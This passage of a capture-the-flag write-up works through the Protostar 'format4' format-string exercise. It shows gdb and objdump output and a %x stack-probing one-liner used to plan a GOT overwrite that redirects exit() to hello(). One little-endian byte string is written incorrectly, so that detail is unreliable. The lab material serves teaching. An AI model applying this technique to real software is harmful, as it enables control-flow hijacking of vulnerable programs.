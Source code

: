 ```c
  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

Solution: overwrite `exit()` address with `hello()` address.

```bash
(gdb) p hello
$1 = {void (void)} 0x80484b4 <hello>

address of hello() = 0x080484b4 -> \xb4\x84\x94\x08

>>> 0x080484b4
134513844 (in decimal)
134513844 - 8 = 134513836
```

```bash
user@protostar:/opt/protostar/bin$ python -c 'print "AAAA" + "%x " * 3 + "%x " ' | /opt/protostar/bin/format4
AAAA200 b7fd8420 bffff5d4 41414141 
```

```bash
WRONG APPROACH! (SEE DYNAMIC RELOCATION RECORDS)
(gdb) p exit
$1 = {<text variable, no debug info>} 0x80483ec <exit@plt>

RIGHT APPROACH!
user@protostar:/opt/protostar/bin$ objdump -TR format4

format4:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000  w   D  *UND*  00000000              __gmon_start__
00000000      DF *UND*  00000000  GLIBC_2.0   fgets
00000000      DF *UND*  00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*  00000000  GLIBC_2.0   _exit
00000000      DF *UND*  00000000  GLIBC_2.0   printf
00000000      DF *UND*  00000000  GLIBC_2.0   puts
00000000      DF *UND*  00000000  GLIBC_2.0   exit
080485ec g    DO .rodata        00000004  Base        _IO_stdin_used
08049730 g    DO .bss   00000004  GLIBC_2.0   stdin


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit  <------- address of exit = 0x08049724 -> \x24\x97\x04\x08
```